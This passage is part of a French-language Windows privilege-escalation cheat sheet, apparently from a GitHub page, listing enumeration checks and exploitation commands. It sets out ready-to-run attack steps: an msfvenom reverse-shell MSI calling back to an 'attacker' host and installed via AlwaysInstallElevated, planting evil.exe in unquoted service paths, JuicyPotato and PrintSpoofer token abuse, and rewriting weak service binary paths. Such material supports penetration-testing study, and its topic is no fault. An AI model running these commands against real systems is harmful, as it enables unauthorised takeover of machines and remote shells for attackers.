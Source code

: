 ### Vert (75%) - Possible
```cmd
# Escalade possible avec exploitation
- Interesting files in user folders
- Running processes information
- Network configuration
- Installed software versions
- Environment variables
```

## ⚔️ Exploitation des Découvertes

### AlwaysInstallElevated
```cmd
# Vérification registry
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Exploitation si activé
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker LPORT=4444 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

### Unquoted Service Paths
```cmd
# Vérification paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Exploitation
# Si service path : C:\Program Files\Some Service\service.exe
# Créer : C:\Program.exe ou C:\Program Files\Some.exe
copy evil.exe "C:\Program Files\Some.exe"
sc stop "VulnService"
sc start "VulnService"
```

### SeImpersonatePrivilege
```cmd
# Vérification privilège
whoami /priv | findstr SeImpersonatePrivilege

# Exploitation avec JuicyPotato (Windows < 2019)
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c evil.exe" -t *

# PrintSpoofer (Windows 2019+)
PrintSpoofer.exe -i -c cmd
```

### Weak Service Permissions
```cmd
# Énumération permissions services
accesschk.exe -uwcqv "Authenticated Users" *
sc qc "VulnService"

# Modification service binary path
sc config "VulnService" binpath= "evil.exe"
sc start "VulnService"
```
